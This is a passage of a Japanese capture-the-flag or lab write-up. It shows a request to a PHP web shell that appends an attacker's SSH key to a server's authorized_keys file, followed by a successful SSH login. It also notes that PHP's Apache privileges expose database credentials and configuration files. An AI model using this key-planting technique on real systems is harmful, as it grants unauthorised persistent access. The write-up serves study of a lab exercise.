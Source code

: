 \begin{lstlisting}
http://10.2.0.3/stage3xYz/images/gomi.php?cmd=echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBQ/02G
1jx0M6Fw7ybYhKuMNlDrG/6sFyifFWO%2BXdmowzSj%2BL4Ip4LpZer1xCINJWJpcGGeIy1JqcoXDagA70yqWWO9qcstCdSKI
lhCBxD78VBS6%2BftvHXpmM7818npSKGy0yeKaajNIEYQYKUGVYVDcLKWEFXY2utDd2wV3M2BRsEZZyu7jlBOqtfEeQbou3so
36lIipM4FAWaZGzcNtnN40xfQLG1twuDTvxYINqTwbezRueYQXghIWTrD3fyWEDH86BsaQ6oN68XD0sscHuI4IC3/R19afZKi
ti8mHqwmC5JODpZ2McUGzwZIqm55c/h83YP1izckJqaKW7pg9V yoshimura_yuu@yoshimura-yuu.local" >> 
/home/stage4/.ssh/authorized_keys
\end{lstlisting}

\begin{multicols}{2}

でいいはずだ。
そして二回目の、

\begin{lstlisting}
$ ssh -i ~/.ssh/id_rsa.gomi stage4@10.0.2.3
\end{lstlisting}

トライ。

\begin{lstlisting}
Last login: Sat Feb 23 10:02:40 2013

Stage4 Keyword: IcouldLoginWithSSHd

[satge4@localhost ~]$
\end{lstlisting}

勝った。
このキーワードは既におーぴーが書き込んだらしい。
しかし謎なのは、

「おーぴー、どうやってに書き込んだ？」

「Fiddler\footnote{プロクシのように振る舞うWebデバッガー。}を使った」

なるほど。
俺みたいに文字列を直接アドレスバーに入力するような、
古典的な手法はもうダメってことだな。
まあともかく、これで俺もサーバーの住人だ。

しかし、ここに来てログインしているのは俺とおーぴーだけ。
チームの全員でこのサーバーを調べた方が良いだろう。
とりあえず、他のメンバーに手早くの使い方を説明した。

まあ、事前にCOINSの環境でこの話はしたことがある。
COINSの環境はPHPがの権限で動いているので、
PHPから、つまりはApacheから参照出来る情報は全て他のユーザーが取得出来る。
故に、PHPがデータベースにアクセスするための情報や、
Apacheの設定ファイルであるなども閲覧出来る。
という話を、これはCOINS環境の応用問題だ。
簡単に分かるはず。

しかし、


\end{multicols}
